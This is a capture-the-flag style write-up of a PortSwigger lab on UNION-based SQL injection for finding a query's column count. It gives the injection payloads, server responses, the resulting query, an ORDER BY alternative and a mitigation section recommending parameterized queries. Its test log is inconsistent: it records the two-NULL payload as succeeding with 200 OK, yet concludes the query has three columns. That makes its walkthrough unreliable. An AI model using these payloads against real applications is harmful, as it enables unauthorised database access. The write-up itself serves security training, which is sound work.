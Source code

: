 # SQL Injection - UNION Attack: Identify Column Count

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: UNION Column Enumeration (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Testing UNION Injection**

**Testing with 1 column:**
```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

**Testing with 2 columns:**
```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

**Testing with 3 columns:**
```sql
' UNION SELECT NULL,NULL,NULL--
```
Response: HTTP/2 200 OK

This loaded the webpage normally, indicating the original query returns 3 columns, and the payload now matches that structure.

**Step 2: Understanding the Injection**

`' UNION SELECT NULL,NULL,NULL--` closes the string with `'`, adds a `UNION SELECT` clause with 3 columns (`NULL,NULL,NULL`), comments out the rest of the query using `--`.

**The SQL query becomes:**
```sql
SELECT * FROM products WHERE category = 'Corporate gifts' UNION SELECT NULL,NULL,NULL--' AND released = 1
```

Now the injected query structure is valid (matches the original query structure), and the page loads correctly.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Information Disclosure | High – Database structure exposed |
| Data Access | High – Potential access to other tables |
| Query Manipulation | High – UNION attacks possible |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated the first step of a UNION-based SQL injection: determining the number of columns required for a valid `UNION SELECT` query. The systematic testing with increasing NULL values proved highly effective in identifying the correct column count. Learned the importance of understanding query structure for successful UNION attacks.

---

## Notes

`ORDER BY 1`, `ORDER BY 2`, etc., can also be used to determine the column count. However, when using ORDER BY, the page loads normally until the number exceeds the actual column count — then it shows an error.

`--` comments out the rest of the query. On MySQL, `--` should be followed by a space. Alternatively, `#` can also be used to identify a comment.

[SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---